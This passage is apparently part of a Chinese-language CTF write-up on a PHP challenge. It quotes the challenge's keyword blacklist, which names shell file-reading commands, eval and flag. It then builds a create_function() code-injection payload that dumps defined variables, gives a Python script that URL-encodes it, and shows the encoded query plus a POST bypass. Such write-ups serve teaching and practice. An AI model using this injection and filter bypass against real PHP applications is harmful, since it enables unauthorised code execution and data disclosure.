 > 例如 shana[]=1&passwd[]=2

#### 自定义匿名函数

5. 最后是这一段:

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) ||
    preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) {
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w=");
} else {
    include "flag.php";
    $code('', $arg);
}
```

这里必须用到 `create_function()` 的代码注入。

> 参考文章: [[科普向] 解析create_function() && 复现wp](https://paper.seebug.org/94/)

由于给出了 `$code`, 这里直接构造一个自定义函数: `$code('', $arg);`, 令 `$arg` = `}var_dump(get_defined_vars);//` 即可:

```php
function feng(){
	}var_dump(get_defined_vars);//}
```

#### 构造 Payload

```python
string = """file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute
&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//"""
encoded_string = ''.join('%{:02X}'.format(ord(char)) if ord(char) < 128 and char not in ['&', '[', ']','='] else char for char in string)
print('Encoded string:', encoded_string)
```

运行后强制 URL 编码一遍:

```
?%66%69%6C%65=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0A&%73%68%61%6E%61[]=%31&%70%61%73%73%77%64[]=%32&%66%6C%61%67[%63%6F%64%65]=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67[%61%72%67]=%7D%76%61%72%5F%64%75%6D%70%28%67%65%74%5F%64%65%66%69%6E%65%64%5F%76%61%72%73%28%29%29%3B%2F%2F
```

> 还要在 POST 里加上 file=1&debu=1 来绕;
